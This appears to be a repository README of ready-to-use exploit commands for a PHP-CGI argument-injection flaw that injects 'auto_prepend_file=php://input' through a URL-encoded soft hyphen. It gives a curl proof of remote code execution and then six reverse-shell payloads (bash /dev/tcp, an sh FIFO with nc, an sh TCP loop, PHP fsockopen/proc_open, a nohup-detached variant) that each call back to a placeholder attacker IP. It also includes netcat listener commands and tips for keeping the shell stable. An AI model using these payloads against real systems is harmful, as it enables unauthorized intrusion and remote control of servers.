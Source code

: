 
# .. consolidated ..


— — — **Basic RCE Proof** — — —
```bash
curl -i -X POST \
  "http://HOST/cgi-bin/php-cgi?%ADd+auto_prepend_file%3Dphp://input" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-binary "whoami"
```

— — — **Simple PHP One-Liner Shell** — — —
```bash
curl -X POST \
  "http://HOST/cgi-bin/php-cgi?%ADd+auto_prepend_file%3Dphp://input" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-binary 'php -r '\''echo "[START]"; system("uname -a"); echo "[END]";'\'''
```

— — — **Bash TCP Reverse Shell** — — —
```bash
# Listener on attacker:
nc -lvnp PORT

# In pod (if bash exists):
curl -X POST \
  "http://HOST/cgi-bin/php-cgi?%ADd+auto_prepend_file%3Dphp://input" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-binary "bash -i >& /dev/tcp/ATT_IP/PORT 0>&1"
```

— — — **Sh FIFO Reverse Shell** — — —
```bash
nc -lvnp PORT

curl -X POST \
  "http://HOST/cgi-bin/php-cgi?%ADd+auto_prepend_file%3Dphp://input" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-binary "rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATT_IP PORT > /tmp/f"
```

— — — **Sh TCP Loop Reverse Shell** — — —
```bash
nc -lvnp PORT

curl -X POST \
  "http://HOST/cgi-bin/php-cgi?%ADd+auto_prepend_file%3Dphp://input" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-binary "(exec 5<>/dev/tcp/ATT_IP/PORT; while read cmd <&5; do \$cmd 2>&5 >&5; done) &"
```

— — — **PHP proc_open() Reverse Shell** — — —
```bash
nc -lvnp PORT

curl -X POST \
  "http://HOST/cgi-bin/php-cgi?%ADd+auto_prepend_file%3Dphp://input" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-binary 'php -r '\''$s=fsockopen("ATT_IP",PORT);if(!$s)exit;proc_open("/bin/sh",[0=>$s,1=>$s,2=>$s],$pipes);'\'''
```

— — — **Detach with nohup** — — —
```bash
nc -lvnp PORT

curl -X POST \
  "http://HOST/cgi-bin/php-cgi?%ADd+auto_prepend_file%3Dphp://input" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-binary "nohup sh -i >& /dev/tcp/ATT_IP/PORT 0>&1 &"
```

**Tips:**
- Always URL-encode the payload header `%ADd+auto_prepend_file%3Dphp://input`.  
- Ensure your listener is running before firing the curl.  
- Use `stty sane; reset` on your terminal if it gets messed up after a shell.  

These variations cover most environments (bash, sh, pure PHP) and ensure you get a stable, detached reverse shell.

##
##
##

